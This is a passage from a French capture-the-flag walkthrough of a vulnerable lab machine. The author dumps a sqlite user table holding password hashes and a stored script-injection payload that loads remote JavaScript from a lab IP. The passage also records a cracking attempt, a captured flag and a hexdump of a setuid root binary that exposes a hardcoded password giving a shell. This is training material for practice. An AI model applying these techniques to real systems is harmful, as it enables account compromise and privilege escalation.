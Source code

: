 Tout est stocké dans une base sqlite3 :

```bash
www-data@alphonse:/var/www/html/dnanalyzer$ sqlite3 users.sqlite3 
SQLite version 3.27.2 2019-02-25 16:06:06
Enter ".help" for usage hints.
sqlite> .tables
Users
sqlite> .schema Users 
CREATE TABLE Users (id INTEGER PRIMARY KEY AUTOINCREMENT, username nvarchar, password nvarchar, dna_string nvarchar, dna_result nvarchar);
sqlite> select * from Users;
5|Alphonse|$2y$10$R6Y.DdYH5BUhbtUf1LOQ1OxAAxlRlrUbXg0z.tZtXnQxML7BiFN4e|GATC|Superb
6|Kevin|$2y$10$qqh98ui/i.DOW5pDCXRJJedNnYOwk8TttCEc5TQB35q.8N.4U8jfO|TCAG|Weak
40||$2y$10$ph0nscggdbMy82KLyxfv1.szMoWpSl3m7usR166TKfcB4sW56FfWm||
41||$2y$10$mPKMdYV77kglkqFfdbGhYe5817Jk3gDQiNDG/jsx9LM7FpSXKXJuC||
42|devloop|$2y$10$CpVpMf..X7EGn941Y2MGcexFKeATqOgMxOn5rtur36pWdERq0RmVG|1|Superb
43|zozo2|$2y$10$cA1pP8gSFcq9WU5XevCMjOzK1q9PEG1Mv6BaKZGD26dver24L5Ozi|<script src="http://192.168.56.1/test2.js"></script>|
```

J'ai tenté de donner ces hashs à *JohnTheRipper* mais ils semblent trop forts pour être cassés.

J'ai trouvé différents fichiers dans le dossier personnel de `Alphonse` :

```
-rw-r--r--  1 alphonse alphonse   12 Sep  1  2019 flag.txt
-rwxr-xr-x  1 alphonse alphonse   21 Sep 10  2019 lock.sh
-rw-r--r--  1 alphonse alphonse   65 Aug 30  2019 todo.txt
```

On a visiblement affaire à un scientifique fou ([Timsit avait raison](https://www.youtube.com/watch?v=mHl--iqe4xw)) :

```
* Create monkey with four asses
* Create monkey with seven asses
```

On obtient aussi notre premier flag : `dmx2urv87f2`

Le script `lock.sh` s'assure uniquement que la session graphique de l'utilisateur se vérouille :

```bash
sleep 1
dm-tool lock
```

Dans le dossier `Documents` de l'utilisateur je trouve un binaire setuid root :

```
-rwsr-xr-x  1 root     root      17K Sep  3  2019 rootme
```

Un petit hexdump s'impose :

```
00002000  01 00 02 00 2e 2f 72 6f  6f 74 6d 65 20 3c 70 61  |...../rootme <pa|
00002010  73 73 77 6f 72 64 3e 00  61 4e 68 67 4b 69 34 78  |ssword>.aNhgKi4x|
00002020  75 4f 00 48 65 72 65 20  79 6f 75 20 67 6f 3a 00  |uO.Here you go:.|
00002030  62 61 73 68 00 2f 62 69  6e 2f 73 68 00 57 72 6f  |bash./bin/sh.Wro|
00002040  6e 67 20 70 61 73 73 77  6f 72 64 00 01 1b 03 3b  |ng password....;|
```
